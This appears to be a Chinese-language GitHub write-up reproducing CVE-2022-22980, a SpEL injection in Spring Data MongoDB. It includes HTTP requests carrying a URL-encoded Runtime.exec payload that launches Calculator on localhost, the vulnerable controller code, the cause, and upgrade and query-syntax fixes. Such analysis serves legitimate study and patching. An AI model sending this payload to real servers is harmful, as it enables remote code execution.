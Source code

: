 ## Spring Data MongoDB SpEL  CVE-2022-22980



### 漏洞复现



findAllByIdLike是会触发漏洞

```http
POST /demo HTTP/1.1
Host: 127.0.0.1:8080
Accept: */*
Accept-Encoding: gzip
Content-Length: 175
Content-Type: application/x-www-form-urlencoded
User-Agent: curl/7.79.1

keyword=T%28java.lang.String%29.forName%28%27java.lang.Runtime%27%29.getRuntime%28%29.exec%28%27%2FSystem%2FApplications%2FCalculator.app%2FContents%2FMacOS%2FCalculator%27%29
```



![image-20220622193502429](/Users/sum/githubrepo/paper/2022/CVE-2022-22980 Mongodb SpEL.assets/image-20220622193502429.png)



findAllByIdLike2也是会触发漏洞

```http
POST /demo2 HTTP/1.1
Host: 127.0.0.1:8080
Accept: */*
Accept-Encoding: gzip
Content-Length: 175
Content-Type: application/x-www-form-urlencoded
User-Agent: curl/7.79.1

keyword=T%28java.lang.String%29.forName%28%27java.lang.Runtime%27%29.getRuntime%28%29.exec%28%27%2FSystem%2FApplications%2FCalculator.app%2FContents%2FMacOS%2FCalculator%27%29
```





![image-20220622203216062](/Users/sum/githubrepo/paper/2022/CVE-2022-22980 Mongodb SpEL.assets/image-20220622203216062.png)



findAllByIdLike3是不会触发漏洞

```http
POST /fix HTTP/1.1
Host: 127.0.0.1:8080
Accept: */*
Accept-Encoding: gzip
Content-Length: 175
Content-Type: application/x-www-form-urlencoded
User-Agent: curl/7.79.1

keyword=T%28java.lang.String%29.forName%28%27java.lang.Runtime%27%29.getRuntime%28%29.exec%28%27%2FSystem%2FApplications%2FCalculator.app%2FContents%2FMacOS%2FCalculator%27%29
```

![image-20220622203109972](/Users/sum/githubrepo/paper/2022/CVE-2022-22980 Mongodb SpEL.assets/image-20220622203109972.png)





产生漏洞的代码

``` java
package com.sumsec.bug.spring.data.mongodb.controller;

import com.sumsec.bug.spring.data.mongodb.repository.DemoRepository;
import java.util.List;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.RestController;

@RestController
public class DemoController {

    private final DemoRepository demoRepository;

    public DemoController(DemoRepository demoRepository) {
        this.demoRepository = demoRepository;
    }

    @RequestMapping(value = "/demo")
    public List<?> demo(@RequestParam(name = "keyword") String keyword) {
        return demoRepository.findAllByIdLike(keyword);
    }

    @RequestMapping(value = "/demo2")
    public List<?> fix(@RequestParam(name="keyword") String keyword){
        return demoRepository.findAllByIdLike2(keyword);
    }

    @RequestMapping(value = "/fix")
    public List<?> fix2(@RequestParam(name="keyword") String keyword){
        return demoRepository.findAllByIdLike3(keyword);
    }
}

```



---

### 漏洞成因

在2014年SpEL支持了Spring Data JPA Query，相关文章[**SpEL support in Spring Data JPA @Query definitions**](https://spring.io/blog/2014/07/15/spel-support-in-spring-data-jpa-query-definitions)。



![image-20220622203554818](/Users/sum/githubrepo/paper/2022/CVE-2022-22980 Mongodb SpEL.assets/image-20220622203554818.png)



---

### 修复方案



* 升级到Spring Data MongoDB 3.4.1和3.3.5
* 使用[0]代替 ?0



---

### 参考

https://github.com/spring-projects/spring-data-examples/tree/main/jpa/security/src/main/java/example/springdata/jpa/security